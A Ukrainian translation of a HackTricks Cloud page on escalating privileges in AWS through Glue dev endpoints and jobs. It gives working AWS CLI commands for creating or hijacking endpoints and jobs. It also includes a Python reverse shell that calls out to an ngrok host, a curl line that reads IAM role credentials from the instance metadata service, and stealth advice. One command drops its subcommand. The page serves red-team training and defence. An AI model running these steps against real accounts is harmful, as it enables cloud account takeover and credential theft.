 # AWS - Glue Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Користувачі з цими дозволами можуть **налаштувати нову точку розробки AWS Glue**, **призначаючи існуючу роль служби, яку може прийняти Glue**, з конкретними дозволами для цієї точки.

Після налаштування **зловмисник може підключитися до екземпляра точки через SSH** і вкрасти облікові дані IAM призначеної ролі:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Для цілей прихованості рекомендується використовувати облікові дані IAM зсередини віртуальної машини Glue.

**Потенційний вплив:** Привілейоване підвищення до ролі служби glue.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Користувачі з цим дозволом можуть **змінити існуючий Glue розробницький** кінцевий пункт SSH, **дозволяючи доступ до нього через SSH**. Це дозволяє зловмиснику виконувати команди з привілеями прикріпленої ролі кінцевого пункту:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Потенційний вплив:** Привілейоване підвищення до ролі служби glue, що використовується.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Користувачі з **`iam:PassRole`**, поєднаним з або **`glue:CreateJob` або `glue:UpdateJob`**, і або **`glue:StartJobRun` або `glue:CreateTrigger`** можуть **створити або оновити завдання AWS Glue**, прикріпивши будь-який **обліковий запис служби Glue**, і ініціювати виконання завдання. Можливості завдання включають виконання довільного Python-коду, що може бути використано для встановлення зворотного шелу. Цей зворотний шел може бути використаний для ексфільтрації **облікових даних IAM** ролі, прикріпленої до завдання Glue, що призводить до потенційного несанкціонованого доступу або дій на основі дозволів цієї ролі:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Потенційний вплив:** Privesc до ролі служби glue, що вказана.

### `glue:UpdateJob`

Лише з дозволом на оновлення атакуючий може вкрасти IAM облікові дані вже прикріпленої ролі.

**Потенційний вплив:** Privesc до прикріпленої ролі служби glue.

## Посилання

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
